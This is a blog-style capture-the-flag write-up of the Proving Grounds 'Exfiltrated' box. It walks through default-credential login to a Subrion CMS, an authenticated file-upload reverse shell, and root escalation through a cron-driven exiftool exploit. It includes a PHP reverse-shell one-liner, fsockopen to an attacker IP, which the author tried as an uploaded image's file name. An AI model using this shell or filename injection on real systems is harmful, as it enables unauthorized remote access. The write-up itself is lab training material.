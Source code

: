 ```yaml
---
title: "Exfiltrated - Proving Grounds"
excerpt: "A Writeup of the Exfiltrated Box from Proving Grounds<br/><img src='/images/Exfiltrated/subrion.png'>"
collection: portfolio
---
```


Ok, still working through TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#) with another [Proving Grounds](https://www.offsec.com/labs/) box. This one is called "Exfiltrated." 

As usual, let's kick things off with a basic nmap scan which revealed these ports:

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http

Since we're usually not going to find anything on port 22 with a lab like this, I went ahead and got started checking out the web page on port 80 while I ran a ful port scan (which showed nothing) and enumerated directories. Right off the bat, I could see that putting the IP in the URL bar caused a changed to exfiltrated.offsec, so I went ahead and added that to my /etc/hosts file to help things run a little bit smoother. 

![Exfiltrated Kickstart](/images/Exfiltrated/kickstart.png){: .center-aligned width="600px"}

Looks like we have another CMS, and right ahead we can see that there is a login page. However, we can also see from out directory scan that we have page called exfiltrated.offsec/panel/blog/register which states explicitly that it is the Subrion Admin Panel. 

![Exfiltrated Admin](/images/Exfiltrated/subrion.png){: .center-aligned width="600px"}

I decided to focus my efforts there, but since I don't have any creds yet, it was time to look around for public exploits for Subrion in particular. 

![Exfiltrated Searchsploit](/images/Exfiltrated/searchsploits.png){: .center-aligned width="600px"}

Since the admin page tells us we are on v4.2.1, I checked those out first. XSS might not be super helpful here as we can't really rely on any other users to interact with the system, so that leaves use with the Abitrary File Upload and the CSRF which apparently adds an admin user. Typically for a box like this, I would expect a File Upload exploit to help us get a reverse shell, but when I tried to run it, it required authentication. That's too bad, but we have the CSRF for that. After checking that exploit briefly, I figured it might make sense to at least check for a few easy logins first before trying to run it. I tried admin:admin, and we were in immediately. I should note that I first searched "Subrion Default Creds" in google, and I see this as the third result:

![Exfiltrated Google](/images/Exfiltrated/google.png){: .center-aligned width="600px"}

I didn't click on it to try, but it definitely let me know I was on the right track. Shout out to [jayngng](https://jayngng.github.io/) lol. At this point I knew I could use those creds for the File Upload vulnerability, so I got that working and got a reverse shell. 

![Exfiltrated Google](/images/Exfiltrated/shellcaught.png){: .center-aligned width="600px"}

Unfortuanately this was not a particularly interactive shell. I couldn't change directories, and while I could download files from my python server, I couldn't execute them, or apparently even change permissions on them so they were executable. After shamefully long time looking around, I realized that if I could upload a file remotely and execute it, I could also probably just upload a shell through the admin panel myself and execute it from there. I did take a detour and check out the SQL tool available in the admin panel, even finding a password and taking a while to crack it in case it helped me get in through ssh. 

![Exfiltrated SQL Tool](/images/Exfiltrated/sqlpage.png){: .center-aligned width="600px"}

Guess what that that bcrypt hash cracks to? Yep, admin. Oops. No worries, I did make my way to the Uploads page and try a few reverse shells. Eventually I went with one from [Ivan Sincek](https://github.com/ivan-sincek/php-reverse-shell) I found on [revshells.com](https://www.revshells.com/) since I've used it before, and it's pretty stable. I also used the .phar extension when I uploaded it because that's what the File Upload exploit used. From there I was able change permissions to linpeas and run it. One that that stuck out was this cronjob:
<br>
| root	bash /opt/image-exif.sh |
<br>

I checked out the script, and it looked like this: 

    #! /bin/bash
    #07/06/18 A BASH script to collect EXIF metadata 
    
    echo -ne "\\n metadata directory cleaned! \\n\\n"
    
    
    IMAGES='/var/www/html/subrion/uploads'
    
    META='/opt/metadata'
    FILE=`openssl rand -hex 5`
    LOGFILE="$META/$FILE"
    
    echo -ne "\\n Processing EXIF metadata now... \\n\\n"
    ls $IMAGES | grep "jpg" | while read filename; 
    do 
        exiftool "$IMAGES/$filename" >> $LOGFILE 
    done
    
    echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
<br>

I analyzed it for a little bit and realized it was taking jpg's from the uploads folder, reading the file name, and then doing something, but I wasn't sure what. So I uploaded a picture to see, did some googling, and realized that it was just taking the filename and turning it into a random hex code to store in the /opt/metadata folder. At this point I figured I could just upload a picture with a shell code as the name, and the exiftool would read and execute. That turned out not to be true, but I did upload a picture of Orville Redenbacher named, "php -r '$sock=fsockopen("$myIP",4444);exec("sh <&3 >&3 2>&3");'" before I realized it. I did a little more googling, and realized there were a few public exploits for exiftool. I pulled [this one](https://www.exploit-db.com/exploits/50911) from exploit-db, but I couldn't get it working. I did a little more googling, and found a re-written version of the same exploit which checked for dependencies and suggested missing ones. Helpful!

![Exfiltrated Exploit Dependencies](/images/Exfiltrated/dependencies.png){: .center-aligned width="600px"}

So I installed those and ran the exploit again. 

![Exfiltrated Exploit Dependencies](/images/Exfiltrated/proof.png){: .center-aligned width="600px"}

Boom. Overall it was a pretty simple box, but it was a helpful exercise in reading carefully and being patient because I did have to make a few different attempts at basically every step. One thing to note - there's two flags on this machine. If you want to get both, you need to check the user's home directory which I was only able to do after rooting the machine. Til next time. 
